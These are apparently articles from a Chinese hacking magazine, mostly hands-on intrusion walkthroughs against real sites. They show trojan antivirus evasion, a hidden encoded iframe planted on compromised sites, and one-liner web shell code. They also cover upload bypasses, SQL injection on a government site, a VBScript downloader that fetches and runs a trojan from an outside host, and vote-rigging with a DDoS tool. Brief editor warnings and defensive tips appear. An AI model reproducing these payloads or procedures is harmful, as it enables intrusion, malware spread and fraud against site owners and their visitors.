（右栏）为了实现“免杀”，作者建议先对网页中的JavaScript结构做兼容性改写，再进行后续处理。核心思路是改变脚本表现形式，干扰静态特征匹配。


> **注意：** 处理脚本时需保证 `<SCRIPT LANGUAGE="Javascript">...</script>` 结构完整，避免改写后页面运行异常。

- 总结MS07-004网马的免杀步骤：
- 通过插入结构块（如`{}`）降低静态识别
- 进行网页加密
- 使用screnc等工具再次加密

## 二、制作免杀灰鸽子

作者继续介绍“灰鸽子”免杀思路：通过修改特征码、配置生成参数、批量生成后验证提示结果等步骤，达到规避查杀的目的。

## 一个人的战争


图4

根据提示，使用诺顿扫描刚刚生成的400个文件（默认在木马的当前目录下创建OUTPUT文件夹，扫描这个文件夹就行了），将带毒的文件删去，再点击“二次处理”，又会跳出一个对话框，如图6。


图5


图6

选择“YES”，MyCCL会继续生成新的木马，再用诺顿扫描一遍，将带毒的删去，点“二次处理”，也就是重复上面的操作，一直到不再有特征码为止。这时右边的框里会把所有的特征码信息显示出来，单击选中任意一个，右键选择“复合精确定定位此处特征”，如图7。


图7

> ### 小知识：什么是特征码
>
> 杀毒软件会在病毒被分析出来的“必死代表性记号”基础上建立检测规则。病毒每次变种都可能修改文件内容，但常会保留某些关键字节片段；这些片段就是“特征码”。通过定位并修改这些特征码，可以让样本暂时绕过基于签名的检测。

这时在“分块个数”处填400，点“生成”，重复前面的操作，直到无法定位出新的特征码。MyCCL定位出来的特征码格式如：`[特征] 000A156C_00000009`，表示从文件头偏移`0x000A156C`处有长度为`0x00000009`的字符串是病毒的特征码。使用十六进制编辑器（UltraEdit或WinHex）可直接定位。

花了2个多小时，我找到了6处特征码，每处长度都在几十甚至上百字节。但是经过多次尝试，在得出的6处特征码中只需3个地方就够了。不同灰鸽子版本与诺顿库定义可能不同，所以请自行定位自己的特征码。


图8

找到了特征码所在要如何修改呢？使用C32ASM（静态反编译工具，也可当十六进制编辑器）打开灰鸽子，选择16进制模式。第一处如图9所示，能看到如`IEXPLORE.exe`、`Hacker.com`等字符串。对此类特征码，可通过大小写替换来规避检测（Windows运行时通常不区分大小写）。


图9

修改好第一处特征码后，来到第二处偏移（如`0000B9BF0`附近）。其中有Delphi相关过程名、变量名等字符串，同样可做大小写替换。若遇到非字符串区段，可尝试将不影响运行的若干字节填`0`并反复测试。完成后再用诺顿复扫，并用Aspack等工具压缩体积，基本即可达成目标。

## 一个人的战争


……占用率也会100%，如图12。如果遇上不耐烦的用户，在中马之前杀了IE的进程，就会失败。因此，正是这个原因，使得该漏洞的成功率大打折扣。与之形成鲜明对比的是去年的MS06-014网马，打开之后瞬间就中了，丝毫不占资源，可惜那个漏洞已经旧了。

## 四、关于挂马代码

```html
<iframe src="http://www.xxx.com/ma.htm" name="ou" width="0" height="0" frameborder="0"></iframe>
```

挂马代码我使用的是大小为0的iframe方式。当然，我不喜欢让别人打开网页的源文件就看到我的网马地址，所以还得将www.xxx.com/ma.htm进行一次加密（“/”不能加密）。使用url244的编码转换工具把www.xxx.com和ma.htm分别转换后，变成了`%77%77%77%2E%78%78%78%2E%63%6F%6D/%6D%61%2E%68%74%6D`，挂马代码就改成了加密形式的iframe。

## 五、挂马的收获

我手上只有以前搞到的几个台湾网站的webshell，反正大家都是中国人，怎么能把台湾人当外人呢？就在台湾省挂马吧！使用海阳顶端ASP木马的“FSO浏览器”功能，找到对方网站的首页index.asp进行编辑，把刚才写好的挂马代码插到页面尾部，保存后，只要有人访问http://www.xxx.tw就会接受MS07-004网马的考验了。

因为上面已经提到MS07-004比较卡，另外我挂马的网站访问量比较小，所以预测收获可能不大。果然，我是在凌晨一点多挂的马，到了次日下午一看，只有一台肉鸡上线……

- 1. 用加花器加花指令让鸽子逃过卡巴的追杀
- 2. 用MyCCL找特征码，修改特征码，逃过诺顿
- 3. 用类似于Aspack的壳压缩一下，减少体积

## 三、完美中的不足

有了免杀的网马和灰鸽子，可以说已经很不错了，只要用户没有安装补丁，杀毒软件使用的是卡巴、诺顿或是赛门铁克，都会中我们的木马。美中不足的是MS07-004这个漏洞会拖慢系统……

## 菜鸟来玩FCKEDITOR入侵加提权

武夫

辛辛苦苦努力了一个学期，什么都没好好学，就只看C语言，结果还把C语言给考砸了，让我着实郁闷了很久。于是决定去测试学校的网站……

我以前检测过学校的主站，是PHP页面的，存在注入漏洞，但是我只得到了管理员的密码进入后台，没得到webshell，这一次决定从头再来，绝不轻言放弃。

首先还是请出百度先生助我一臂之力，搜索关键字：`Site:xxxx.edu.cn inurl:php`，找到一个页面，如图1。


```text
Warning: main(include/http://www.hackwolf.cn/1.txt?): failed to open stream: No such file directory in D:\htdocs\depart.php on line 63
Warning: main(): Failed opening 'include/http://www.hackwolf.cn/1.txt?' for inclusion (include_path='.;/usr/local/php4/includes/') in D:\htdocs\depart.php on line 63
```

大家注意到URL中有个`link=departintro.php`，它的意思表明这个文件通过link参数引用了departintro.php这个文件。于是，我把参数改成了`link=http://www.hackwolf.cn/1.txt?`再提交，如图2。

出现错误提示了，这表明 `http://www.hackwolf.../1.txt` 并没有被它包含起来，算是失败了，不过却把绝对路径暴露出来，也算是得到了一些相关信息。无意中看到“相关文件”后，下面会出现一个“基础一部2005年度工作计划”的页面，忽然间想了下，我访问程序使用的编辑器 `cwebeditor` 出问题很多，这个网站会不会也用 `fckeditor` 呢？于是我查看了这个文件的超链接地址，为 `http://xxxx.edu.cn/FCKeditor/userdocs/...`。


下面就要用 `nc.exe` 来把修改后的 `1.txt` 里的数据发送出去了。把 `nc.exe`、`1.txt` 放到同一个目录下，在 CMD 下执行以下命令。根据返回的数据（图6）可以看到已经将 php 文件提交上去，它还返回了上传后 php 文件的路径，拼接后可直接访问（如图7）。

```bash
nc.exe -v xxxx.edu.cn 80 <1.txt
```

既然能够成功上传 php 文件，那么用同样方法上传一句话木马也很简单，只需要把 php 代码改为 `<?@include($_POST["Allife"]);?>`。其中 `Allife` 是连接密码。如果做了修改，连接器中的“密码”也要对应调整。随后在功能列表中执行命令（图8）。

从下载回来的程序中，发现处理文件编辑的页面是 `fckeditor.html`。直接访问 `http://xxxx.edu.cn/FCKeditor/fckeditor.html`（如图3）。虽然系统设定不允许直接上传 PHP 类型文件，但仍可尝试通过“插入/编辑图片”进行上传，结果提示只能上传 `jpg/png/gif` 等文件（如图4）。


很明显 FCKeditor 对上传文件做了处理，不允许直接上传脚本。于是改为先修改 html 请求再提交，先构造一个 `110.jpg` 文件，内容是用于验证的 php 代码。再用抓包工具复制完整请求，保存为 `1.txt`，并将包中的 `110.jpg` 改为 `110.php`（如图5）。

```php
<?php
echo "hackwolf";
?>
```


顺利加上了一个用户名为 `hackwolf`、密码为 `hackwolf` 的管理员账号。在“开始”→“所有程序”→“附件”→“通讯”中找到“远程桌面连接”并进入系统（图9）。


这个文件的作用是打印出 `hackwolf` 这个单词，用来验证上传的 php 文件是否正确执行。打开 Winsock Expert，选择浏览该网页的 IE 进程并抓包，回到浏览器访问 `110.jpg` 并点击“发送到服务器”，随后复制数据包并做扩展名替换处理。

## 一个人的战争

程序面连接，输入目标的网址 xxxx.edu.cn，点“连接”后，用刚加上的账号和密码登录到服务器的3389，如图9。在里面溜达一圈，出来给管理员老师发 EMAIL 通知一声，此次入侵就算顺利完成了，回去睡我的大头觉咯！

**小编点评：** 很多菜鸟可能都不知道 FCKEDITOR 到底是什么，也许也不知道 ewebeditor 是什么。其实它们都是在线编辑器，也是某种程度上的整套程序。大家在黑客X档案论坛里发站的时候，会发现可以自由地把帖子进行各种编辑，就像在 WORD 里操作一样……

## DVBBS7.1 SP1 最新漏洞曝光

### ——遍历目录漏洞的利用

【管\|管】有个朋友在深圳做手机生意，托我给他找个名字叫“手机大派对”的商城系统来建站……一套正版程序就要花2000多大洋，黑一个使用“大派对”正式版程序的网站，不就节约下这笔钱了吗？

### 一、寻找目标

在百度和 Google 里，使用“高级搜索”功能，搜索关键词：**手机大派对 inurl:.asp**。翻了几页后，将目标锁定为 **www.yinhe****.com**。

### 二、寻找漏洞

在开始寻找漏洞之前，我给各位小黑同志一个建议，不要一看到是个网站就开着啊D或者脚本狂扫……应先对网站结构、链接、功能模块做细致浏览和分析，再动手不迟。

- 网站经过防注入处理，无明显漏洞。  
- 全站依靠 ewebeditor 进行内容编辑和上传文件管理，尝试后台路径下载数据库、在线破解、本地暴力破解均失败。  
- 网站使用动网 DVBBS7.1.0 SP1 论坛，可下载默认数据库，成功拿到论坛管理员账号和密码。

### 三、动网新洞

拿着 admin 账号高高兴兴地登录了 http://www.yinhe****.com/bbs，顺利进入论坛后台。先设置论坛基本属性，允许上传 MDB 格式文件……随后在后台“上传文件管理”里寻找突破口。


进入“常规管理”的“基本设置”页面（如图2），找到“上传目录设定”选项，默认目录为“uploadfile/”，把它改为“../../”，修改后如图3。


修改好上传文件路径之后，进入“上传文件管理”，点击“开始搜索”按钮，出现如图4所示界面。


## 一个人的战争

> ### 小提示
> 此处有个容易被忽视的选项：在“清理日志”流程中，若选择“是”会删除相关文件，默认通常应为“否”。


在“需要清理的上传目录”处，路径会显示为“../../”。这是因为后台管理位于 `/bbs/admin/` 目录，系统会自动补上返回上级目录的前缀。设置上传目录为站点根目录后，可对目标目录文件执行清理。

DVBBS 6.0 之后版本中，上传目录被限定为 `UploadFile`，仅该目录下文件可自动清理。若不在“基本设置”中调整上传目录，就只能看到 uploadfile 内的文件，无法遍历更多位置。

完成参数设置后点击“清除未记录文件”并确认，网站根目录下大量文件会被列出。该方法通常可看到文件但看不到子目录；数据库文件常见于 `data`、`db`、`database` 等目录。

```
../../data/bjxshop_mobile.mdb 在库中没有记录，目前未被删除。
共删除 1 个无用文件。[返回]
```

若数据库改名为 `bjxshop_mobile.mdb`，可通过形如 `http://www.****.com/data/bjxshop_mobile.mdb` 的地址下载到本地，从而提取后台信息并打包站点程序。

> ### 小提示
> 上传虽然提示“未删除 1 个无用文件”，但实际上可能并无文件被删除；关键在于利用清理结果枚举路径与文件。

### 四、总结

遍历目录漏洞可用于查看站点文件，对漏洞利用与信息收集价值较高。文中提醒应合法合规地进行安全研究，避免恶意破坏。


2007年1月，某公安厅官方网站被入侵并篡改首页，引发媒体关注。文中描述了事件背景、攻击者多次改页现象，以及对站点安全状况的分析。

作者将目标域名加入检测工具后进行自动分析，继续追踪其被入侵路径与成因，作为案例展开后续说明。

## 一个人的战争


该网站是否存在漏洞，结果如图1所示，有3个注入点。

双击啊D找出来的任意网址，自动进入检测页面，单击注入链接后面的“检测”按钮后，可以得到网站的数据库基本信息。先单击“检测表段”可以把数据库里存在的所有表名都列出来，然后一个一个表慢慢看，最终在 sm_userid 里找到了后台管理员的详细信息，如图2。

后台地址刚才在不经意间找到了，是 http://www.****.gov.cn，下面就是使用 admin 用户登录就行了，进去后如图3所示。

在后台转了半天，除了可以添加文章外没发现其它能利用的地方。文章编辑用的是 ewebeditor，默认不能上传 ASP 类型的文件。下载了 ewebeditor 的数据库，查看管理员 MD5 密码，也没有在线破解出来，这样一来，很难在后台拿到 WEBSHELL 了！


把思路调整回来，既然有注入漏洞，而且是 DB_OWNER 权限，那列个目录备份数据库试试？回到啊D里，进入“大堆东西”选项里，选择“查看目录”，在“检测位置”下拉框里选择 F 盘，单击“给我检测”，一层一层地挖，终于找到了网站的根目录 `F:\sdgat\webpage\`，如图4。

知道了网站的物理地址，就可以用工具来备份数据库获得 WEBSHELL 了。翻出 GetWebShell 大众版，在注入点处填上啊D检测出来的地址 `http://www.sdga.gov.cn/webback/xinwen/third.asp?id=1335`，数据库填 `policedata`（第一次啊D检测的时候有提示过这个数据库的名称），WEB 路径我藏得稍微隐蔽一点：`f:\sdgat\webpage\webback\xinwen\ewebedit\Admin\help.asp`，木马代码用 `<%%25Execute(request("ah"))%%25>` 就可以，连接密码就是 ah，如图5。


## 一个人的战争

从第一步依次点到第六步，注意间隔时间，一般等到浏览区返回正常页面再点下一步。接着访问我们的一句话木马地址，见到网页底部的“类型不匹配：'Execute'”就可以证明一句话木马备份成功了，如图6。

接下来用我们的客户端连接一句话木马，打开 http://www.hack1st.com/m/1.htm 在线客户端，在服务端网址处写上我们的一句话地址 `http://www.sdga.gov.cn/webback/xinwen/ewebedit/Admin/help.asp`，登录密码是默认的 a1，下面就可以填写任意的 ASP 木马代码了！因为我手上很多 ASP 木马一上传就被杀了，后来在欠钱大哥的兵器库里找了一个 CoolDiyer“焚”化的 ASP 木马，用记事本打开它，把里面的代码都复制粘贴到下面，提交后就得到了大马，如图7。现在想做什么就简单了吧！找到 index.asp 进行“edit”（编辑），我们也可以替换公安厅的首页了，可是这么做没有什么意思，所以我就只说说，免得犯了众怒。


小编点评：

在外界，很多不了解这个圈子的人会以为有人黑掉了公安厅的官方网站有多厉害，作者用菜鸟的方法也进去玩了一把。实际上，刊登本文最大的原因也就是告诉大家，那些媒体所报道的某黑客黑掉了某网站其实是多么的无聊，好好学习技术，你也行。可是《黑客X档案》不得不说一下，毕竟这是 gov.cn，中国的政府网站，一旦追究起来，不管你有没有搞破坏，都是违反了刑法，要坐牢的！详细的相关规定，还请关注本期《黑客X档案》封面新闻。

（文章中涉及到的啊D注入工具2.3破解版、一句话木马、GetWebShell、cooldiyer.asp 光盘中已收录）

## 十分钟深入侵CCTV

茶杯里的勿忘

这天有 NBA“火箭”VS“76人”队的比赛，于是我就来到号称是火箭队地方电视台的 CCTV 网络电视专题直播，好不容易连接上了，无奈网速慢得要死完全没法看，既然比赛看不了就看看网站的安全性如何吧（小编：现在的小黑们入侵的理由还真是千奇百怪——）

找了几个带参数的页面手工检测都不行，算了，也懒得动手找注入点了，还是交给工具吧。拿出啊D注入工具 V2.32，填上网站的地址，点上“连接网页”，啊D就自动去检测该网站了。不一会儿检测结果出来，还真有一个注入点，如图1。


图1

在刚才检测出来的注入点上点右键，选择“注入检测”，进入检测页面，在新出来的界面里，单击右上角的“检测”按钮，可以查看出对方当前的数据库连接信息，如图2。


图2

当前权限处显示的结果是 SA，它是 MSSQL 数据库中权限最高的用户，默认情况下它具有 SYSTEM 级别的权限，比普通的管理员用户 administrator 还高。而且通过啊D注入工具，在相关工具中，还可以使用“CMD/上传”功能直接执行任意命令，也可以通过“目录查看”功能列举服务器上的所有目录和文件。

在“CMD/上传”功能中，在命令内容处填写为 `ipconfig /all`，勾上“回显”，单击“检测”按钮，结果发现这台数据库服务器的 IP 地址是一个内网地址。再通过 `net start` 命令和 `netstat -an` 可以判断出这台服务器除了 MSSQL 外没有开放任何其它的服务。

## 一个人的战争

晕，到这个时候我很头疼，不知道如何是好。

> **小知识：内网数据库**
>
> 有的时候，为了节约 IP 地址，网络会使用 NAT 技术，让数据库服务器使用一个内网 IP 地址来放置于两台服务器。比如只有一个合法的 IP 地址是 `124.254.14.164`，那么网站服务器可用两个 IP（`124.254.14.164`、`192.168.0.2`），数据库服务器使用 `192.168.0.3`。这样普通用户通过外网 IP 访问网站，而网站服务器访问数据库时走内网地址，可节省 IP 并减少数据库直接暴露。


思考了一会儿，既然我们不能主动连接到数据库服务器，那就让数据库服务器主动来找我们吧！我先配置好一个灰鸽子上传到个人网站目录，如果可以让数据库服务器运行这个程序，自动下载我的灰鸽子并运行，就可以完全控制它了。在“CMD/上传”功能里依次执行命令，生成 `iget.vbe`，该脚本可自动下载指定文件。

```bat
echo lLocal = LCase(WScript.Arguments(0)) > iget.vbe
echo lRemote = LCase(WScript.Arguments(0)) >> iget.vbe
echo Set xPost = CreateObject("Microsoft.XMLHTTP") >> iget.vbe
echo xPost.Open "GET", lRemote, 0 >> iget.vbe
echo xPost.Send() >> iget.vbe
echo Set sGet = CreateObject("ADODB.Stream") >> iget.vbe
echo sGet.Mode = 3 >> iget.vbe
echo sGet.Type = 1 >> iget.vbe
echo sGet.Open() >> iget.vbe
echo sGet.Write(xPost.responseBody) >> iget.vbe
echo sGet.SaveToFile lLocal, 2 >> iget.vbe
```

执行后如图3所示，通过“目录查看”可以看到这个 `iget.vbe` 保存到了服务器的 `C` 盘根目录下，如图4。

既然 `iget.vbe` 已经生成完毕了，再回到执行命令功能，输入并执行 `cscript iget.vbe http://www.****.com/muma.exe muma.exe`，即可让服务器自动下载木马。确认 `muma.exe` 已在 `C:\` 下后，再执行 `c:\muma.exe`，木马即可上线（如图5）。


好了，到此我已经完全控制了这台电脑。既然目的达到了，就发一封邮件通知管理员，收工走人。其实这次入侵没有什么新的技术，只是提供一个思路：下载木马的方式很多（如 ftp、批处理等），关键是多动脑。

### 小技巧：部分软件无法安装

- **问：** 最近我的 Windows 2000 在安装部分软件时总是失败，提示“安装程序启动安装引擎失败，不支持此接口”。
- **答：** 常见原因是 Windows Installer 服务异常。可在“开始→程序→管理工具→服务”中将其启动类型改为手动并启动；安装后再停止。
- 若仍有问题，可下载并安装新版 Windows Installer（如 2.0）。
- 继续排查：
  1. 确认是否有管理员权限；
  2. 检查是否存在占用进程（如 `ikernel.exe`），结束后重装；
  3. 删除 `Program Files\Common Files\InstallShield\Engine` 后重试。


> **小编点评：**
>
> SA 权限、注入漏洞是否被作者说得过于轻松？现实里数据库与 Web 服务器未必同机，为什么一定要下载木马文件？是否还有更隐蔽方式？一次入侵成本与收益是否匹配？希望读者在实践前多思考。

（文中涉及的 cmd 和相关 vbs 文件光盘中已收录）

## 你藏好了吗？

### 物理路径

猫咪森林


前些日子，有位朋友神秘兮兮地告诉我说 Discuz! 出了个新漏洞，可以爆出物理路径，并截了图发给我看。从截图中可以看到，很多著名的论坛（包括 Discuz! 官方网站）都存在该漏洞。由此引出问题：物理路径在什么情况下有作用，对网站到底有多大危害？

### 一、Discuz! 5.0 暴路径漏洞

通过 Google 搜索 `Powered by Discuz!` 可找到大量论坛。使用物理路径探测工具可在返回页面中看到服务器物理路径，例如 `/home/jiade/public_html/bbs/include/common.inc.php` 等。文中还提到该路径可与历史漏洞利用方式结合（如写入 PHP 文件等）。


对于 Discuz! 暴路径漏洞，修复方法是修改 `include/common.inc.php` 中相关判断：将 `preg_match` 调用前增加容错（如 `@preg_match`）以避免错误信息泄露路径。

### 二、aspx 暴路径漏洞

与 Discuz 类似，支持 ASPX 的站点也可能存在路径泄露。文中以工具站点示例说明：输入目标 URL 后点击“爆”，即可得到结果路径，并进一步用于渗透测试流程中的信息收集与利用。


注意输入网址时末尾斜杠不可遗漏，否则可能失败。文章后续结合注入点与后台利用场景，说明暴露物理路径会降低攻击门槛，增加网站被入侵风险。

## 一个人的战争

现在得到了网站的物理路径，又是 DB_OWNER 的注入权限，那就可以直接使用 Log 备份的方法来得到 webshell 了！可以使用工具 NBSI 3.0，切换到 Get Webshell 界面，填入注入地址和备份路径后，先不要急着点“备份”。

先在 `http://www.usaspi.com/seminars/open/seminar.aspx?id=1` 之后，加上一句 `alter database XXX set RECOVERY FULL--`，其中 XXX 要替换为当前数据库名称（本例为 spi）。其作用是把 SQL 设置为日志完全恢复模式，只有这种模式下 Log 备份才能起作用。然后回到 NBSI 3.0 点击“备份”按钮，如图 6。

现在 `http://www.usaspi.com/seminars/open/aaa.asp` 就是备份好的一句话木马了，默认密码是 `a`，使用一句话木马客户端连接即可得到 webshell。


图6

### 三、总结

暴路径（物理路径泄露）虽然危害程度相对较轻，但黑客常配合其它漏洞使用。在入侵过程中，熟练掌握该技术有时能对入侵思路有很大帮助。希望本文抛砖引玉，提醒大家更加注意细节。

（文中涉及到的 Discuz 暴路径工具、aspx 暴路径工具、NBSI 3.0 光盘中已收录）

## 社会工程学快速拿 webshell

风吹过PP 好冷

可能有许多读者朋友都不知道，国内有一个叫“中国被黑统计网”的网站。它最初用于让一些喜欢炫耀“战绩”的人提交被入侵站点，参与统计。也正因如此，给了老鸟可乘之机。

第一步，寻找一个合适目标。在被黑统计网提交的页面翻看，能看到有人提交的“证据”中包含 webshell 地址，我们将目标定在“寒水芊芊”身上，如图 2。


图1


图2

第二步，打开“寒水芊芊”入侵的网站 `http://www.gdhs.net.cn/index.asp`，发现其新安装的论坛 DVBBS。此前提到过，多数被入侵站点是因为默认数据库与默认密码，而该论坛也存在类似问题。

别看名单里每个人都黑了很多网站，很多只是“小打小闹”。我做过统计：约 50% 因默认数据库未改名被入侵，约 45% 因非常简单漏洞（如默认密码）被入侵，真正技术含量较高的仅约 5%。

因此他们能拿下站点，我们也能。更关键的是，很多人使用的 webshell 密码通常固定不变；一旦拿到一个密码并结合其提交页面，其它 webshell 也可能被接管。


图3


图4

## 一个人的战争

总数只有 1 个人，很明显就是默认的管理员账号 admin 没有改，它的密码应该是 admin888，如图 3。

使用 admin 和 admin888 登录，很容易就进了论坛的后台，如图 4。进入到动网论坛的后台，拿 shell 就很容易了。在左侧的管理选项里点“模块导出”，如图 5。在附加说明里写入一句话木马代码 `<%execute request("value")%>`，在“选择”那一栏勾上该模板，如图 6。最后点击“导出”就会提示“模板数据已经保存到您的论坛根目录下的 skins 下，文件名为 Dv_skin.mdb”。


接下来在左侧管理面板中点“恢复数据库”，在备份数据路径中填写 `../skins/Dv_skin.mdb`，目标数据库路径则写为 `../data/dvbbs7.asp`，如图 7。然后点“恢复数据”，如果成功的话，就可以访问 `http://.../data/dvbbs7.asp` 得到一句话木马的 shell 了。当然，这还只是一个一句话木马，关于它的使用在上期的菜鸟学堂中已经讲得很详细了，我们再来上传一个大马，就可以控制整个论坛。


第三步，找到寒冰牛牛的 ASP 木马，下载下来使用记事本打开，结果发现这个 ASP 木马是加过密的，如图 8。

```
（加密后的 ASP 代码块，大段乱码）
```

不过这种加密方式在 2000 年的时候就已经有人写出了专门的加密解密工具，我给大家推荐一个破解这种加密的网站 `http://www.35wl.com/tools/encode.htm`，把 ASP 木马的代码复制进去，然后点 Encode 解密，很快就能看到正常的 ASP 代码了。……

## 我的铁锈秀，你的排名我作主

张双 [风之痕 @CNSU]

前几天我一高中的朋友告诉我说她参加了我们当地的一个什么“我酷我秀”的评选，目前是网络海选阶段。我上去看了看，她的排名一直是在前六名内，还算不错，我向她表示了祝贺。两天后，她就打电话给我，带着哭腔说新参加的几个人刷票太厉害了，她现在的排名已经被远远甩在了后面，而再过几天就要结束评选了……


先来分析一下这个投票系统的流程，在选手的照片边上点击那个投票的按钮图片，如图 1，进入另一个页面，并弹出 JS 窗口“谢谢你的参与”，如图 2。点击确定后就返回主页，查看一下刚才的投票数，已经涨了一票。再点这个选手的投票按钮，就会弹出拒绝的提示，如图 3，看起来是做了基本的防刷票验证。


- IP 认证：通过服务器对 IP 地址的记录，限制同一 IP 的用户多次投票。
- 客户端 Cookie 认证：通过服务器向客户端写入 Cookie，使用 Cookie 来限制用户的投票次数。
- 服务器 Session 认证：通过服务器本机的 Session 数据记录来判断投票的有效性。
- 使用验证码之类的技术：通过生成随机的图片验证码，限制非人为的访问和提交数据。
- 通过用户信息验证：非注册用户无法投票，这样在对用户身份认证和防刷票上基本上做到了更好。

## 一个人的战争

通过对这个投票系统的抓包结果（图 4）和投票过程的测试分析，初步判断这个投票系统是通过 Cookie 认证的，同一个 IP 每 15 分钟同一个选手只能投票一次，如果客户端阻止 Cookie 写入，投票无效并直接跳转到另外的网页。


图4


图6

那么别人是怎么刷票的呢？我仔细分析了一下抓包的结果，发现了一个 Cookie 里的时间戳 cck_lasttime，莫非服务器是通过客户端 Cookie 的最后一次投票时间来决定下一次的投票许可判断？灵光一闪，我刚才最后一次投票已经过去了 15 分钟，现在重新阻止一下 Cookie 写入试试。


图5

在 IE 上方的菜单条中选择“工具”-“Internet 选项”，找到“隐私”项，把滑块拖到最上面，在旁边会提示我们“阻止所有 Cookie”，如图 5！现在，我们就把 IE 浏览器设置成禁止 Cookie 写入了。再去尝试投票，哈哈，成功了！想投哪个就投哪个，再也没有了限制。

别人也许就是这样来刷票的，或者是花钱使用人海战术，但不管怎样，刷票的方法我已经掌握了，下面就比谁刷得快了。我使用这种方法刷了一会儿，这种重复的操作感觉特别累，也很无聊，而且还很慢，一个小时也刷不了多少票，眼看着第一名有九万多票了，这么点下去，要什么时候才追得上啊。

那有没有更快的办法呢？突然之间，我想到了挂马，打开肉鸡的网站，同时也会提交一份合法的选票到投票系统，这也许是个好办法。正好前一阵子入侵了几个网站，现在就拿过来试一试。我先拿出自己编写的一个网页木马辅助制作工具，如图 6，生成一份挂马的代码，放入肉鸡的主页上试了一下，没想到收效不大，可能是这些网站的访问量太低吧。而且还会有 JS 的弹窗提示，搞不好肉鸡还会“封号”。看来还得另辟蹊径。

折腾之后，我开始查资料，看看有没有什么更好的方法，在翻邮箱时看到了前段时间关于 DDOS 防护的研究资料，想起了 DDOS 里的一个工具 CC，这个工具是通过代理来不停地访问网站页面而产生攻击的，可以不停地刷新页面。于是一个新的思路出来了……

我拿出以前整理收集的代理 IP 列表，使用花刺验证了一下，如图 7，把有效的代理地址导出来，然后打开 CC，如图 8，开始填写参数：

- **Refer**：填上投票的页面地址（告诉系统我是从投票的页面而来的）。
- **Mozilla**：填写浏览器类型，使用 CC 自带的就可以。
- **Cookie**：记录在本机的 Cookie 信息，可以使用 Winsock Expert 抓包，得到投票系统验证的 Cookie。此处如果不填写的话，会被视为非法投票，只能算普通的页面攻击，而达不到刷选票的目的。
- **ProxyList**：代理服务器列表。点击最下方的“Load”键，直接导入刚才导出的有效代理服务器列表。
- **AttackList**：填写上提交投票信息的链接地址。回到投票系统的网页面上，在投票的按钮上点右键，选“复制快捷方式(I)”，如图 9。把得到的地址复制到 CC 的 AttackList 下边的地址栏中，再点击“Add”加入到攻击列表（提示：URL 前面加“G”表示 Get 模式）。
- **Thread**：默认是 10 线程，可以根据自己的电脑配置去调节。
- **Type**：如果同时要给多个选手投票的话，可以勾选 Sort 选项。因为我只选一个投票对象，所以就不用选了。最后点击“Attack”，投票就开始了。


图7

大概过了十几分钟，我刷新了一下投票的页面，有些卡，过了好久才显示出来，我同学的票数一下子就多了将近 5000 票，再试试多个选手同时刷票，吓了我一跳，CC 啊，还真是恐怖，原来那个选手是一万多票，我稍带着刷了一会儿，就变成了两万多票，如图 10。先停止 CC，然后看了看排名，已经是前 9 名了，呵呵。

## 一个人的战争

问了下同学，她说前 6 名就好了，不用太超前。于是，我继续刷票的同时又帮另外几个 PLMM 刷了下票，结果海选的前几名都成了我喜欢的 MM，本来是海选投票，结果却成了我一个人的选择……


其实本文刷票的原理很简单：CC 是用来攻击页面的，简单地理解就是它通过大量的代理 IP 来模拟大量的合法用户向站点提交请求，从而消耗站点的大量资源，造成 DDOS 攻击。我们可以利用它能够模拟合法用户提交请求和可以刷新页面的特点，做其它一些事，比如这次我们就是用来模拟不同 IP 的用户向投票系统提交大量的投票信息，从而为某个特定的人刷选票。其它方面的应用也很多，比如说模拟大量用户访问你的站点，提高网站的在线人数、IP 流量和站点排名（小心自己 DDOS 自己了）等等……

CC 原本是用来 DDOS 的，换个思路也可以做其他很多事……防范 CC 的办法有很多，硬件防火墙是最好的选择！而在程序代码方面可以有以下几种方法：

- 利用 CC 大多使用大量代理的特征，限制代理服务器的访问，或者在代理服务器访问时，加上验证或者限制！
- CC 攻击的对象是页面，也就是一个存在消耗大量 CPU 计算时间的地方，对于这点，可以对站点的页面程序代码进行优化，尽量减少动态页面的使用；对于访问压力较大的动态页面使用静态 cache 技术，尽量减少 CPU 的资源消耗。
- 限制单位时间内同一请求 IP 的并发连接数，限制一定时间的刷新次数，这点可以使用 Session 认证。
- 可以利用代理服务器无法运行脚本和对脚本做出判断的特点，把需要对数据进行查询等消耗资源的语句做在 Redirect 后面，让对方必须先访问一个判断页面，等做出判断后，再 Redirect 过去。
- 对于投票系统这样的，其实很简单的解决办法就是利用图片验证码，这样就没办法伪造投票的数据了！


## X兄 Discuz 最新 PM 漏洞！

zJ1244 尖酸


这日，我正在浩方上兴致勃勃地打着 war3，突然欠钱发来消息说 Discuz! 可能又有新漏洞了！问之缘由才得知，原来有一天欠钱在其 blog 上感慨说如果哪位大虾攻破了 X 的服务器还请手下留情，然后某牛人留言说其实攻破 X 的服务器也不是什么难事，并且把欠钱在论坛的 MD5 密码散列发了出来。这下可把欠钱吓个半死。经过多方检查才得知原来 Discuz! 还有新的漏洞，其实这个漏洞在圈子里已经被人拿来卖了很久了，但是却迟迟没有公布，后来官方又悄悄地推出了补丁却也没有怎么提到这个漏洞。

我们先来简单分析一下漏洞的成因：漏洞出现在 `pm.php` 文件的第 190 行左右；当满足变量 `$msgto` 不为空并且 `$msgtobuddys` 是数组的话，就把 `$msgtobuddys` 的值赋给 `$msgto`。然后我们来到第 225 行，这里程序用了一个循环把 `$msgto` 的值依次赋给 `$uids`，在下的 231 行里就直接把 `$uids` 带入到了 SQL 语句里查询，漏洞就形成了。感兴趣的朋友可以自己补看代码，在这里就不详细分析了，下面我们进入小菜们最关心的问题——如何利用？

我们使用搜索引擎来寻找目标，推荐使用 yahoo 或者 google 来搜索 “Powered by Discuz! 4.0.0” 或者 “Discuz!” 就可以找到很多目标，如图 1。

> **小提示：** 因为官方只提供了 5.0 和 4.1 版本的补丁，而对于 4.0 版本的补丁并没有提供，所以我们直接搜索 4.0 版本的论坛可以大大提高入侵的成功率。还有根据本人经验，成功率应该是 4.0 的最高，其次是 4.1，最后是 5.0 版本。

5.0 版本和 4.x 版本的口令密码方式有些不同，我们先以 5.0 版本为例。我们以冰点极限论坛为例来进行测试 `http://bbs.kehack.org/index.php`。首先需要注册一个用户，怎么注册就不用我多说了吧。接着我们使用这个注册用户登录论坛，单击“短消息”进入短消息页面，如图 2。然后就要开始抓取 `cookie` 了，打开抓包工具 WSockExpert，单击工具左上方的文件夹图标，在弹出的对话框中选择短消息页面所在的 IE，最后单击“打开”，如图 3。接着我们在 IE 里按 F5 刷新页面，就可以看到 WSockExpert 已经捕获了数据，我们在众多数据中找到任意一个状态是 `send` 的数据包并单击它，便可以在下方看到具体内容，其中的 cookie 便是我们要抓取的，如图 4。


